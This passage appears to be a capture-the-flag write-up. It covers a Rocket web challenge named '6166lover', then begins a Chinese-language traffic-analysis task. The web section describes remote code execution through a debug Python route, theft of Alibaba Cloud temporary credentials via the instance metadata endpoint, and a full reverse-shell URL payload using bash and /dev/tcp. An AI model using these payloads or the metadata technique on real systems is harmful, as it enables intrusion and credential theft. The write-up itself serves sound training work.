 ### 6166lover

1. Figure out that is a Rocket application and has Cargo.tml leaked. 

2. Download it and find the application name "static-files" and download the binary. 

3. Run it with debug mode or Write a example application by yourself to find out the route has been registered.

4. Figure out both of the debug route have done, one is js sandbox, the another one is python "sandbox". Just think them as a black box and test them.

5. Run python code to RCE. 

6. ps -ef, You will find /flag has been deleted when the instance booted. 

7. Use Alibabacloud metadata to get the host instance metadata, And a worker role on it. https://help.aliyun.com/document_detail/214777.html / /meta-data/ram/security-credentials/ 

8. Use metadata api to get the temp credentials.  

9. Use temp credentials to invoke api GetAuthorizationToken. https://help.aliyun.com/document_detail/72334.html 

10. Pull image from alibabacloud image registry with username cr_temp_user  and authorizationToken as its password. Image: registry.cn-hangzhou.aliyuncs.com/glzjin/6166lover You may know these from the challenge domain, I have deployed in hangzhou of alibabacloud k8s service(ACK). And know the author name is glzjin, and the challenge name 6166lover. 

11. After pull it, just run it with docker run -it registry.cn-hangzhou.aliyuncs.com/glzjin/6166lover bash, and you may get the flag on the image. Thank you:

    Just get your reverse shell like that:

    ```
    http://6166lover.cf8a086c34bdb47138be0b5d5b15b067a.cn-hangzhou.alicontainer.com:81/debug/wnihwi2h2i2j1no1_path_wj2mm?code=__import__(%27os%27).system(%27bash -c "bash -i >%26 /dev/tcp/<your_ip>/<your_port> 0>%261"')
    ```

    And maybe you have to find out a way to fork your process that not jam this application because it's deployed on k8s with a health check.

## MISC

### 1！5！

1.打开流量，可以发现由两部分组成，由quic和tcp组成，先看看底部tcp

![image-20220724031354864](http://img.l1near.top/image-20220724031354864.png)

![image-20220724031401128](http://img.l1near.top/image-20220724031401128.png)

2.可以看见有websockets流量，并且可以发现每段都发送了加密数据

![image-20220724031457118](http://img.l1near.top/image-20220724031457118.png)
